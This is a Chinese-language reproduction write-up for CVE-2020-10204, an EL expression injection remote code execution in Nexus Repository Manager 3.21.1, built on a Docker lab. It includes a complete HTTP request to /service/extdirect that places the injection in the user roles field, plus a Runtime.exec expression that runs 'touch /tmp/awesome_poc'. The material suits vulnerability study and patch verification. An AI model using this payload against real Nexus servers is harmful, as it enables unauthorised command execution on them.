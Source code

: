 # Nexus Repository Manager 3 远程命令执行漏洞 CVE-2020-10204

## 漏洞描述

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.21.1及之前版本中，存在一处任意EL表达式注入漏洞，这个漏洞是CVE-2018-16621的绕过。

参考链接：

- https://support.sonatype.com/hc/en-us/articles/360044356194-CVE-2020-10204-Nexus-Repository-Manager-3-Remote-Code-Execution-2020-03-31
- https://github.com/threedr3am/learnjavabug/blob/93d57c4283/nexus/CVE-2020-10204/README.md

## 环境搭建

Vulhub执行如下命令启动Nexus Repository Manager 3.21.1：

```
docker-compose up -d
```

等待一段时间环境才能成功启动，访问`http://your-ip:8081`即可看到Web页面。

该漏洞需要访问更新角色或创建角色接口，所以我们需要使用账号密码`admin:admin`登录后台。

## 漏洞复现

登录后台后，复制当前Cookie和CSRF Token，发送如下数据包，即可执行EL表达式：

```
POST /service/extdirect HTTP/1.1
Host: your-vps-ip:8081
Content-Length: 223
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.9514072635504696
Content-Type: application/json
Accept: */*
Origin: http://your-vps-ip:8081
Referer: http://your-vps-ip:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: NX-ANTI-CSRF-TOKEN=0.9514072635504696; NXSESSIONID=9c8acd44-38cb-4a2c-a045-96161193dbc2

{"action":"coreui_User","method":"update","data":[{"userId":"admin","version":"2","firstName":"admin","lastName":"User","email":"admin@example.org","status":"active","roles":["nxadmin$\\B{233*233}"]}],"type":"rpc","tid":11}
```

![image-20220228161022019](./images/202202281610135.png)

参考https://github.com/jas502n/CVE-2020-10199，使用表达式`$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/awesome_poc')}`即可成功执行任意命令：

![image-20220228161317185](./images/202202281613307.png)

命令`touch /tmp/awesome_poc`执行成功：

![image-20220228161302851](./images/202202281613913.png)

